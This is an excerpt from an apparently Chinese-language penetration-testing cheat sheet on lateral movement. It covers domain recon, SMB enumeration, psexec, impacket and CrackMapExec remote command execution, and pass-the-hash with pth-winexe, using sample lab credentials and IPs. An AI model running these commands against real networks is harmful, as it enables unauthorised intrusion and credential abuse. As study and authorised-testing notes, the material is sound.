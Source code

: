 - 記憶體鑑識工具
    - Rekall
    - Volatility
    - Windbg


## Lateral Movement(橫向移動)
**用途：擴散**

### 做橫移前Recon：
- `echo %logonserver%`
- `nltest /dclist:<domain>`

### rdp
- xfreerdp：sudo apt-get install freerdp2-x11

### SMB
- port：139 (NetBIOS)
- Port：445

#### SMB Enumeration
- smbclient
- smbmap
- Crackmapexec

### psexec
- 第一次使用先接受 eula
    - https://docs.microsoft.com/en-us/sysinternals/downloads/psexec
    - psexec.exe -accepteula
- 使用psexec之前可以先用smbmap確認權限
`smbmap -u jojo -d LAB -p Vampire@Mask -H 10.10.40.20`
- `psexec.exe -accepteula \\<ip> -u [<domain>\]<username> -p <password> cmd`

### impacket
https://github.com/SecureAuthCorp/impacket
`impacket-psexec jojo@10.10.40.20`
`proxychains psexec.py <username>:<passowrd>@<ip> whoami`

### CrackMapExec
`./cme smb [IP] -u administrator -p Passw0rd ‐‐exec‐method mmcexec ‐x 'whoami'`

### Pass the Hash

kali：`pth-winexe`
- 無法過Proxy chain
- 類似 Psexec，但支援以 Hash 代替密碼

usage：`pth-winexe -U <domain>/<username>%aad3b435b51404eeaad3b435b51404ee: <NTLM> //<IP> cmd`

On Windows：
`wmiexec.exe`：https://github.com/maaaaz/impacket-examples-windows/blob/master/wmiexec.exe
